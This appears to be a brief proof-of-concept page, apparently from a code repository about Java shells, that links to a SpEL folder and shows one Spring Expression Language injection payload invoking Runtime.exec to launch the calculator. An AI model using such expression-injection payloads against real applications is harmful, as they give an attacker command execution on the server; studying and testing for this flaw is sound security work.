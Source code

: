 # POC

https://github.com/Firebasky/Java/tree/main/shell/SPEL

```
T(java.lang.Runtime).getRuntime().exec("calc")
```

